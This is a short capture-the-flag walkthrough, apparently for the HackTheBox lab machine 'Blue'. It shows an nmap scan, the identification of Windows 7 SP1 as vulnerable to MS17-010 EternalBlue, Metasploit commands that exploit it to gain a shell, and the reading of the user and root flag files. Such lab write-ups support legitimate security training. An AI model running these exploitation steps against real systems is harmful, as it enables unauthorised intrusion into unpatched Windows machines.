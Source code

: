 
![Blue](https://user-images.githubusercontent.com/66635295/171770325-b049fad5-f2ec-4c7b-8f55-b810338df409.png)

**RECON**
---
**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.40</pre>

-allports -version -Aggressive

Port 139 and 445 shows SMB is running  

![nmap](https://user-images.githubusercontent.com/66635295/171770240-22a413e1-86f5-403d-bf28-67498161e951.png)


**Google-Fu**

<pre>Windows 7 Professional 7601 Service Pack 1</pre>

MS17-010 EternalBlue

![google](https://user-images.githubusercontent.com/66635295/171770443-4a2599f6-984b-4cd3-b6dc-1fc910325fa6.png)

![blue](https://user-images.githubusercontent.com/66635295/171770448-d6573efd-0ab3-45cf-8227-4d8145f1321d.png)

**Metasploit Search**
<pre>msfconsole</pre>
<pre>search eternal blue</pre>

![menu](https://user-images.githubusercontent.com/66635295/171770683-7e20277f-35e4-4ee5-b509-54cb7667f10a.png)

**Auxiliary Scan**

<pre>use 3</pre>
<pre>set host</pre>
<pre>run</pre>
Host is likely Vulnerbale
![bluescan](https://user-images.githubusercontent.com/66635295/171771697-0fd5fdd3-a366-482a-b17a-a79db6aec8c2.png)

**ENUMERATION**
---
Eternal Blue Exploit
<pre>use 0</pre>
<pre>set hosts</pre>
<pre>run</pre>
Success 
![win](https://user-images.githubusercontent.com/66635295/171775665-bdea3385-c399-4edf-95da-e0d69317953c.png)

**PRIVILEGE ESCALATION**
---
**Directories**
<pre>shell</pre>
<pre>cd C:/</pre>
<pre>cd Users</pre>
<pre>dir</pre>
![haris](https://user-images.githubusercontent.com/66635295/171775908-10c655f3-e3d4-4331-82bb-fec08256fcff.png)

**User Flag**
<pre>cd haris</pre>
<pre>cd Desktop</pre>
<pre>dir</pre>
<pre>type user.txt</pre>

**Root Flag**
<pre>cd C:/Users/Administrator</pre>
<pre>cd Desktop</pre>
<pre>dir</pre>
<pre>type root.txt</pre>




